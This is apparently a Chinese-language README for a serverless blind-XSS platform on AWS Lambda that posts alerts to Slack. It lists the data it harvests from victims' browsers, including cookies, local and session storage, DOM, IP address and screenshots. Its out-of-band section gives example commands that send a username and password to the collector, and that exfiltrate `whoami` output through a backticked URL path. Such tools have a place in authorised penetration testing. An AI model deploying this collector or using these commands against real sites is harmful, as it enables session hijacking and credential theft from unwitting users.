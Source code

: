 # Ass
The AWS Lambda Serverless Blind XSS App

利用VPS配置XSS平台太麻烦了，如果利用AWS的Lambda那不就是一个域名的事情么？剩下的环境配置、HTTPS证书、隐私性、VPS续费都不用管了，
所以根据[xless](https://github.com/mazen160/xless)重写了Lambda平台的XSS，利用slack机器人通知的方式代替邮件或者短信

XSS有四个URL可用：
- `/msg` [OOB场景1](#OOB场景1)
- `/404` [OOB场景1](#OOB场景2)
- `/example` 查看js插入例子
![example.png](./images/example.png)

## :warning: 准备工作
- AWS账号
- Slack账号，包括一个slack App的通知机器人和上传图片需要的Auth Token
- 自定义域名(可选)

## :rocket: 部署
#### Slack 
[创建Slack的App](https://api.slack.com/apps),创建之后点进APP获取webhook和Token, webhook使用来通知机器人，Token可以使用`xoxb`开头的OAuth token，用于上传图片：

![slack.png](./images/slack.png)

#### AWS Lambda
##### 部署Lambda
修改`app.py`的 `Token,Bot`为你自己的信息:

```
virtualenv venv -p python3
. venv/bin/activate
sls plugin install -n serverless-wsgi
sls plugin install -n serverless-python-requirements
sls deploy #部署到aws
sls wsgi serve #本地测试
``` 
##### 绑定自定义域名
首先在域名提供商更改ns的地址，使用Route 53服务管理域名，设置自定义域名步骤：[how-to-edge-optimized-custom-domain-name](https://docs.aws.amazon.com/apigateway/latest/developerguide/how-to-edge-optimized-custom-domain-name.html)，总结来说如下：
1. 在API Gateway增加自定义域名，选择 Edge-optimized，在API映射选择创建好的lambda函数
2. 为域名配置ACM证书
3. 配置好之后得到一个`*.cloudfront.net`格式的域名
4. 在Route 53设置cname别名，cloudflare家不支持

## :incoming_envelope: 收集的信息

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address
* Screenshot


![xss.png](./images/xss.png)



## :satellite: Out-of-Band (OOB)
#### OOB场景1
在网站插入JS获取敏感信息传输到远程服务器，注意使用JSON格式：
```
http https://example.com/msg "UserName=admin" "Password=admin"  -v
```
![oob](./images/msg.png)

#### OOB场景2
命令执行外带到远程http服务：
```
http https://example.com/404/`whoami`
```
![oob](./images/oob.png)

### TODO
* 每次需要改JS的时候需要重新部署Lambda